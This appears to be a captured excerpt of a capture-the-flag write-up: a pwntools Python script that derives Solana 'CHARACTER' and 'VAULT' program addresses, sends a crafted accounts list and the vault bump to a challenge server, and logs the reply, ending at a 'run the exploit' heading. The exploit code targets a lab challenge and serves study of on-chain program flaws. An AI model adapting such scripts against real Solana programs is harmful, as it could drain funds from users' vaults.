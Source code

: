 ```python 
log.info(f"useraccount: {useraccount}")

# find character pubkey and bump
character, character_bump = PublicKey.find_program_address(
    [
        b"CHARACTER",
        bytes(useraccount),
        int(0).to_bytes(1, "little")
    ],
    program,
)
log.info(f"character: {character}")

# find vault pubkey and bump
vault, vault_bump = PublicKey.find_program_address([b"VAULT"], program)
log.info(f"vault: {vault}")

# put together the accounts array, each account can be `signer`(`s`), `writable`(`w`), both(`ws`) or none(`q` or any other char, not `s` or `w`, for that matter) of them and that is specified by the first field of the tuple
accounts = [
    (b"ws", user.to_base58()),
    (b"q", program.to_base58()),
    (b"w", character.to_base58()),
    (b"w", useraccount.to_base58()),
    (b"w", vault.to_base58()),
    (b"q", SYS_PROGRAM_ID.to_base58()),
]

# encode our data (here we only need the vault bump)
ix_data = p8(vault_bump)

io.recvuntil(b"num accounts:").decode("ascii")
# send the number of accounts and the accounts
io.sendline(str(len(accounts)).encode("ascii"))
for access, key in accounts:
    io.sendline(access + b" " + key)

io.recvuntil(b"ix len:").decode("ascii")
# send data size and data
io.sendline(str(len(ix_data)).encode("ascii"))
io.send(ix_data)

# wait for any answer from the server and log it
output = printable(io.recvall()).decode("utf-8")
log.info(output)
```


### run the exploit
